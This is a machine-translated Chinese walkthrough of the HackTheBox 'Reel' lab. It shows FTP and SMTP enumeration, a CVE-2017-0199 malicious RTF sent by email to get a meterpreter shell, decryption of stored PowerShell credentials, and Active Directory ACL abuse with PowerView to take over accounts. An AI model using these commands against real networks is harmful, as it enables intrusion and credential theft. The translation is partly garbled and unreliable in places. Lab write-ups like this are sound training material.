


# Reel —一个 blood hound & powers loit Active Directory hack the box 演练

> 原文：<https://infosecwriteups.com/reel-a-bloodhound-powersploit-active-directory-hackthebox-walkthrough-3745269b1a16?source=collection_archive---------0----------------------->


# 摘要

Reel 是一个运行 FTP 服务的 Windows 主机，允许匿名访问。这被用来访问系统上的文件，以便枚举用户电子邮件并识别用户期望接收的邮件。通过电子邮件发送 rtf 文件。一种恶意。然后生成利用 [CVE 的 rtf 文件，并通过 Reel 的 SMTP 服务器发送给用户。此漏洞允许用户访问 Reel。在中发现了加密的用户凭据。xml 文档并被破译以通过 SSH 获得持久性。](https://cvedetails.com/cve/CVE-2017-0199/)

通过在主机上发现的[blood hound](https://github.com/BloodHoundAD/Bloodhound/wiki)Active Directory 审计的工件，主机上的权限被升级。使用 PowerView(现在是 [PowerSploit](https://powersploit.readthedocs.io/en/latest/) 的一部分)利用 Active Directory 配置来获得对另一个用户帐户的访问权限，该用户帐户对包含管理员帐户凭证的文件具有读取权限。

# 侦察

我开始在这台主机上进行侦察，通过`nmap`扫描检查服务版本，并在前 1000 个最常见的端口上运行默认脚本:

```
nmap -sV -sC 10.10.10.77
```

纳米粒子加速器

这返回了 3 个服务:端口 21 上的 FTP、端口 22 上的 SSH 和端口 25 上的 SMTP。由于 FTP 允许匿名访问，这是枚举的下一个逻辑步骤。

```
ftp 10.10.10.77
```

匿名 FTP

我们可以看到在`documents`文件夹中有 3 个我们可以访问的文件。这些文件可以使用`GET <filename>`命令单独复制，或者——因为这是匿名 FTP——可以使用`wget`从攻击主机检索:

```
wget -r ftp://10.10.10.77
```

“Windows Event Forwarding.docx”在文档的创建者元数据字段中包含用户电子邮件地址“nico@megabank.com ”,可以使用`exiftool`查看。

```
exiftool “Windows Event Forwarding.docx”
```

exiftool

文件“readme.txt”只包含:

> “请给我发电子邮件任何 rtf 格式的程序，我会审查和转换。
> 
> 新格式/转换后的文档将保存在这里。"

试图通过 SMTP 使用 VRFY 命令验证“nico@megabank.com”电子邮件帐户时，该命令被禁止。但是，RCPT 命令可用于枚举有效的电子邮件帐户:

```
telnet 10.10.10.77 25
```

SMTP 枚举

此时，已经收集了 3 个关键细节:

*   主机上运行的 SMTP 服务器
*   电子邮件帐户“nico@megabank.com”
*   有人想接收。rtf 文件

# 最初的立足点

研究利用迄今收集的信息的方法返回了[CVE-2017–0199](https://cvedetails.com/cve/CVE-2017-0199/)这是 2017 年 4 月发现的一个关键的微软 Office 零时差。这个漏洞利用了。rtf 文件(有些重命名为。doc)，它将连接到远程服务器(由攻击者控制)以下载包含 HTML 应用程序内容的文件，并作为。hta 文件。因为。hta 是可执行的，攻击者就可以在受害者的机器上完全执行代码。这个逻辑错误也给了攻击者绕过微软开发的任何基于内存的缓解措施的权力([来源](https://securingtomorrow.mcafee.com/mcafee-labs/critical-office-zero-day-attacks-detected-wild/))。

除了 Metasploit 模块:“Microsoft Office Word 恶意 Hta 执行”(exploit/windows/file format/Office _ Word _ Hta)之外，还有手动利用此漏洞[的方法。需要明确的是，这两种方法都不会直接利用任何客户端。恶意文件必须在这些模块之外的受害者机器上传送和执行。这些模块会生成恶意的。rtf 文件和宿主. hta 文件。因为这个总结不是关于 CVE-2017–0199 本身，而是关于 Reel 的整体妥协，所以我将演示 Metasploit 模块，因为它更精简，更容易重复。](https://www.helpnetsecurity.com/2017/04/10/ms-office-zero-day/)

exploit/windows/file format/office _ word _ HTA

该模块创建了恶意文件`shell.rtf`并将其放在目录`/root/.msf4/local/`中，同时还托管了。web 服务器上的 hta 文件。`swaks`使用瑞士军刀 smtp 通用 SMTP 事务测试器将恶意文件发送到“nico@megabank.com”:

```
swak --to nico@megabank.com --server 10.10.10.77 --attach /root/.msf4/local/shell.rtf
```

仪表外壳

之后不久。rtf 文件被传送到主机，它被打开以产生一个回调来下载和执行。hta 文件，它返回一个允许用户访问主机的 meterpreter shell。

# 坚持

用户`nico`的桌面上有一个名为`cred.xml`的文件，其中似乎包含另一个在线用户`tom`的凭证:

这个 xml 文档实现了一种存储用户凭证的方法，以便[将它们传递到 PowerShell 脚本](https://ye110wbeard.wordpress.com/2012/05/21/three-ways-to-pass-credentials-in-a-powershell-script/)中，而无需将凭证添加到每个脚本中。这使得更新凭证变得容易，而不会破坏多个脚本，也不需要单独更新它们。

为了与 xml 文件进行预期的交互，meterpreter shell 必须使用命令[加载 PowerShell 扩展](https://www.darkoperator.com/blog/2016/4/2/meterpreter-new-windows-powershell-extension):

```
load powershell
```

使用以下命令获得了 PowerShell 提示符，而不是标准 CMD 提示符:

```
powershell_shell
```

使用 cmdlet `Import-CliXml`通过以下命令将文件作为 PSCredential 对象接收:

```
$tom=Import-CliXml -Path C:\Users\nico\Desktop\cred.xml
```

密码是从一个系统转换来的。Security.SecureString 到明文字符串，使用命令:

```
$tom.GetNetworkCredential().Password
```

一起:

cred.xml 明文密码

这个明文密码用于以用户`tom`的身份获得对 Reel 的 SSH 访问。

# 权限提升

在`tom`用户的桌面目录中，有一个名为“AD Audit”的文件夹，其中包含来自[blood hound](https://github.com/BloodHoundAD/Bloodhound/wiki)Active Directory 审计的工件。这包括一个名为“acls.csv”的文件，其中包含每个 AD 用户帐户与其他用户和组的关系。

查看“acls.csv”发现`tom`拥有对`claire`账户的 WriteOwner 权限。`claire`帐户拥有特权`backup_admin`组的写权限。官方的[powers loit 文档](https://powersploit.readthedocs.io/en/latest/)以及一个重要贡献者的过时的[博客帖子](http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/)返回了正确的语法来执行密码重置并控制`claire`帐户，并将`claire`帐户添加到`Backup_Admins`组。

首先，导入位于 AD Audit 文件夹中的`PowerView.ps1`模块:

```
Import-Module ‘C:\Users\tom\Desktop\AD Audit\BloodHound\PowerView.ps1’
```

接下来，`tom`拥有对`claire`用户对象的 WriteOwner 权限。因此将`tom`设置为`claire`对象的所有者。

```
Set-DomainObjectOwner -Identity claire -OwnerIdentity tom
```

既然`tom`是`claire`对象的所有者，`tom`可以向 ACL 添加条目。添加一个条目，赋予`tom`更改`claire`对象密码的权利。

```
Add-ObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
```

更改`claire`的密码:

```
$UserPassword=ConvertTo-SecureString ‘1ts-mag1c!!!’ -AsPlainText -ForceSet-DomainUserPassword -Identity claire -AccountPassword $UserPassword
```

为`claire`帐户创建一个凭证对象，以便使用`claire`的权限执行命令:

```
$Cred = New-Object System.Management.Automation.PSCredential(‘HTB\claire’, $UserPassword)
```

将`claire`添加到`Backup_Admins`组:

```
Add-DomainGroupMember -Identity ‘Backup_Admins’ -Members ‘claire’ -Credential $Cred
```

一起:

拥有克莱尔

使用`claire`帐户 SSH 到主机，我们能够访问`Administrator`帐户的桌面，但仍然不能访问`root.txt`标志。然而，有一个“备份脚本”目录，其中包含一个名为`BackupScript.ps1`的文件，该文件包含管理员帐户的明文密码。



管理员密码

该密码用于通过 SSH 访问管理员帐户并获得根标志:



证明